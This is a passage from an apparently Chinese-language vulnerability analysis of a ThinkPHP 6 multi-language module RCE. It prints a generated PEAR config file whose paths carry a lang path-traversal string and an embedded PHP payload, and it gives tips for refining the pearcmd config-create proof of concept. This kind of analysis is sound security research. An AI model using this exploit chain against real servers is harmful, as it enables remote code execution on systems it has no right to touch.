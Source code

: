 ![image-20221223145743187](tp6多语言模块RCE漏洞利用分析.assets/image-20221223145743187.png)

此时我们看一下创建的文件内容应该能更好的理解整个漏洞利用的处理方式。


```shell
# cat /tmp/hello.php
#PEAR_Config 0.9
a:13:{s:7:"php_dir";s:81:"/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>/pear/php";s:8:"data_dir";s:82:"/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>/pear/data";s:7:"www_dir";s:81:"/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>/pear/www";s:7:"cfg_dir";s:81:"/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>/pear/cfg";s:7:"ext_dir";s:81:"/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>/pear/ext";s:7:"doc_dir";s:82:"/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>/pear/docs";s:8:"test_dir";s:83:"/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>/pear/tests";s:9:"cache_dir";s:83:"/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>/pear/cache";s:12:"download_dir";s:86:"/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>/pear/download";s:8:"temp_dir";s:82:"/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>/pear/temp";s:7:"bin_dir";s:77:"/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>/pear";s:7:"man_dir";s:81:"/&lang=../../../../../../../../usr/local/lib/php/pearcmd&/<?=phpinfo()?>/pear/man";s:10:"__channels";a:2:{s:12:"pecl.php.net";a:0:{}s:5:"__uri";a:0:{}}}# 
```

那么更好的 poc 改进方式，就是把 lang 参数提前，在保证触发 lang 参数的情况下，减少多余符号。同时切记保留 `config-create /<?=phpinfo() /tmp/hello.php` 中，参数 `root path` 要求的不可或缺的一个 `/` 即可：
